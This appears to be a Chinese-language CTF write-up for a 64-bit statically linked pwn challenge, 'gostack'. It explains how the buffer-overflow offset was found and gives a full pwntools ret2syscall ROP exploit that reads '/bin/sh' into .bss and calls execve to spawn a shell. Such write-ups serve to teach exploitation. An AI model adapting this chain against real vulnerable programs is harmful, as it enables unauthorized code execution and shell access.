






# 分析

这是一道ret2syscall题，file和checksec一下，程序64位，静态编译





使用IDA查看main函数，结果很乱，我们使用字符串查找和引用找到程序函数地址0x4A0880，分析函数



由于函数太复杂，运行程序进行配合分析，了解其功能，由于有输入，对输入进行判断是否有溢出



测试溢出为0x102，再结合程序结构，构造payload



接下来就是构造溢出和ROP



ROP利用syscall构造出read函数读入我们的`"/bin/sh"`,紧接着构造出`syscall('/bin/sh',0,0)`

# exp


```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
#p=remote('8.147.132.163',36068)
p=process('./gostack')
elf=ELF('./gostack')
syscall=0x404043
bss=0x5633A0
pop_rax=0x40f984
pop_rdi_6=0x4a18a5
pop_rsi=0x42138a
pop_rdx=0x4944ec
ret=0x40201a
bin_sh=b'/bin/sh\x00'
payload=flat(cyclic(0x100),p64(bss),p64(0x10),p64(0)*0x18,p64(ret),p64(pop_rax),p64(0),p64(pop_rdx),p64(0x10),p64(pop_rsi),p64(bss),p64(pop_rdi_6),p64(0)*6,p64(syscall))
payload+=flat(p64(pop_rax),p64(0x3b),p64(pop_rdx),p64(0),p64(pop_rsi),p64(0),p64(pop_rdi_6),p64(bss),p64(0)*5,p64(syscall))
p.sendline(payload)
p.sendline(bin_sh)
p.interactive()
```

